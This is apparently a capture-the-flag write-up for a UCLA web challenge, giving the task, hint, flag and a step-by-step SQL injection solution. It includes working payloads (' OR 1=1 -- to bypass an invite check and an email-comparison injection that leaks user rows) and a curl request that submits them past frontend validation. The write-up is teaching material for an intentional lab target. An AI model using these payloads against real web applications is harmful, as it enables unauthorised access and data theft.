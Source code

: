 ## MyKeyboard.io

__Description__

```
MyKeyboard.io is the hot new start-up in town, inspired by a series of popular
posts in a certain computer science Facebook group. Being in closed beta, it
will only allow users with special invite codes to sign up. But like most
hackathon-project-turned-start-ups, MyKeyboard.io doesn't seem to pay much
attention to the security of their flashy website.

http://ctf2.linux.ucla.edu:9001/
```

__Hint__

```
What happens when you try to successfully register again? How is the app doing
this?
```

__Flag__

```
okvulftumhctgjot
```

__Points__

```
80
```

## Solution

The source code for the website is in the `mykeyboard` folder. Credits to
[Start Bootstrap](https://github.com/BlackrockDigital/startbootstrap-agency)
for the deisgn template.

This was one of the two 80 point problems (albeit I was angrily told it should
be worth less ;). The fundamental technique here is the classic __SQL
injection__.

Looking at the website, there are many fancy Javascript functions and CSS
rules, but all of that is just camouflage. The only important part of the
website (besides the memes) is the invite form.

![Sign Up](docs/signup.png)

Whenever there is some kind of form on a website that requires checking
credentials, that should suggest a possibility of a SQL injection
vulnerability. Your objective would be to get past that check.

Entering the wrong code will trigger the following error:

```
Sorry, the following error occurred: Invalid invite code
```

How might an application be making this check? The typical assumption of SQL
injectors is that the app is making a query of this form:

```
SELECT something FROM sometable WHERE code = '{INPUT}'
```

That `{INPUT}` is where the code you enter goes. If the query returns
something, then the check passes. If it doesn't, then it fails. This is really
easy to defeat: just use `' OR 1=1 --` as your code. When the app substitutes
it into the query string, the query becomes:

```
SELECT something FROM sometable WHERE code = '' OR 1=1 --'
```

The query thus always succeeds in finding something, and the check passes. This
isn't the end of the challenge, however. After entering this code, the app
replies with:

```
Your signup has been received and will be processed!
```

Now what? Where's the flag? The challenge hint suggests you try submitting the
request again:

```
Sorry, the following error occurred: The email "my@email.com" is already used
by myname
```

It appears that the app remembers who submitted a valid request and checks to
make sure the next person doesn't accidentally use the same email. How is it
doing this? Well, with another SQL query of course!  Probably of the form:

```
SELECT name, email FROM sometable WHERE email = '{INPUT}'
```

This is likely the hardest part of the challenge, because it's not trivial to
figure out how to proceed. Here, the app isn't doing any gatekeeping checks;
it's merely trying to be helpful and report information to the user. But this
very act of helpfulness can be a vulnerability. Consider an injection on the email field of `' OR email > 'my@email.com' --`. The query becomes:

```
SELECT name, email FROM sometable WHERE email = '' OR email > 'my@email.com' --'
```

This query will thus find the _next user_ in the table, and tell you their name
and email, without you knowing the email to input beforehand! You can use other
comparisons to go forwards or backwards. This is an information-leaking type of
SQLi, which can be just as common as check-bypassing SQLi.

Unfortunately, the webapp helpfully tells you that `' OR email > 'my@email.com'
--` is not a valid email address, and thus disables the submit button. However,
this is merely a frontend restriction; savvy web developers are probably able
to manually invoke the submission via some dev console magic. I prefer to stick
to __curl__:

```
curl -X POST ctf2.linux.ucla.edu:9001/signup    \
    -d name=myname                              \
    -d email="' OR email > 'my@email.com' --"   \
    -d code="' OR 1=1 --"
```

After executing this, the app relies with:

```
{"error": "The email \"okvulftumhctgjot\" is already used by flag", 
 "success": false}
```

And your job is done.

